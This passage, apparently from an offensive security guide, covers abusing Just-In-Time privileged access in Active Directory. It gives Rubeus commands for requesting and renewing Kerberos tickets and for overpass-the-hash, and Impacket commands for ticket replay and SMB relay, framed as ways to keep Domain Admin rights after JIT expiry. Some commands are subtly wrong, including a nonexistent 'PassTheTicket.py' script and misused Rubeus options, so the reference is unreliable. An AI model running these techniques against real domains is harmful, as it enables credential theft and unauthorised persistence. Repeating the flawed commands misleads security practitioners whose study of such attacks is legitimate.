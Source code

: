 #### **Example Commands**:
- **Requesting a TGT (Ticket Granting Ticket)** for a JIT-privileged user:
    ```bash
    Rubeus.exe tgtdeleg /user:JITAdminUser /rc4:passwordhash
    ```

- **Renewing a Kerberos Ticket** to extend JIT privileges:
    ```bash
    Rubeus.exe renew /ticket:<ticket.kirbi>
    ```

- **Overpass-the-Hash Attack**: After dumping NTLM hashes with Mimikatz, Rubeus can use the hash to request a TGT:
    ```bash
    Rubeus.exe asktgt /user:targetUser /rc4:hash /domain:target.domain.com
    ```

#### **Scenario**:
An attacker compromises a user account that has temporary JIT access to a Domain Admin role. They use **Rubeus** to request a TGT, allowing them to perform privileged actions until the TGT expires, bypassing the JIT expiration window.

---

### **5. Impacket**

#### **Purpose**: 
Impacket is a collection of Python scripts used to interact with network protocols, particularly in Active Directory environments. It is highly useful for post-exploitation activities, especially related to Kerberos and SMB (Server Message Block).

#### **Use in JIT Exploitation**:
- **Kerberos Ticket Operations**: Impacket’s tools can be used to manipulate Kerberos tickets, replay them, and authenticate as JIT-privileged accounts.
- **SMB Relay Attacks**: Impacket’s tools, such as `smbrelayx`, allow attackers to relay credentials or Kerberos tickets to maintain persistence after JIT privileges expire.

#### **Key Impacket Tools for JIT Exploitation**:
- **`GetTGT.py`**: Requests a TGT for a compromised JIT-privileged user.
    ```bash
    GetTGT.py domain/username -hashes :ntlmhash
    ```

- **`PassTheTicket.py`**: Replays a Kerberos ticket for a JIT-privileged account.
    ```bash
    PassTheTicket.py domain/username -ticket tgt.kirbi
    ```

- **`smbrelayx.py`**: Exploits SMB relays, which can be useful in an environment where SMB signing is disabled and attackers want to persist after JIT escalation.
  
---
